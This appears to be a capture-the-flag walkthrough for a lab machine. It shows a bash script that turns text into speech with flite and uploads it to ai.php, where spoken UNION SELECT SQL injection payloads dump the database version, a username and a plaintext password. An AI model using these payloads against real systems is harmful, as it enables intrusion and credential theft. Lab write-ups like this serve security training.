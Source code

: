 - The potential attack path is to generate `sql` injection speech
  - We can now script the process using `flite`
  - `apt install flite`
```
└─$ flite -w speech.wav -voice rms -t "Hello"
```
```
└─$ curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!'
<!DOCTYPE html>
...
```
```
└─$ curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!' | grep 'Query result :' | sed 's/<br \/>/\n/g' | sed 's/<h3>//g'
Our understanding of your input is : hello
Query result :
```

- Let's make a script
```
#!/bin/bash

flite -w speech.wav -voice rms -t "$1"
resp=$(curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@speech.wav;type=audio/x-wav' -F 'submit=Process It!' | grep 'Query result :' | sed 's/<br \/>/\n/g' | sed 's/<h3>//g')
echo -e "$resp"
```
```
└─$ ./ai.sh "hello"
Our understanding of your input is : hello
Query result : 
```

- Now let's try to perform `sqli`
  - We saw a hint from `intelligence.php` about `Comment Database` which will result in `-- -`
  - We can perform basic injection and dump version
```
└─$ ./ai.sh "open single quote space union select version open parenthesis close parenthesis comment database"
Our understanding of your input is : '  union select version()-- -
Query result : 5.7.27-0ubuntu0.18.04.1
```

- It's really difficult to generate complicated `sqli` speech requests, so we should stick to basic queries
  - We could assume that there's a `users` database
  - If we try to dump it, we have a hit
```
└─$ ./ai.sh "open single quote space union select space username space from users comment database"                       
Our understanding of your input is : '  union select   username   from users -- -
Query result : alexa
```
```
└─$ ./ai.sh "open single quote space union select space password space from users comment database"
Our understanding of your input is : '  union select   password   from users -- -
Query result : H,Sq9t6}a<)?q93_
```
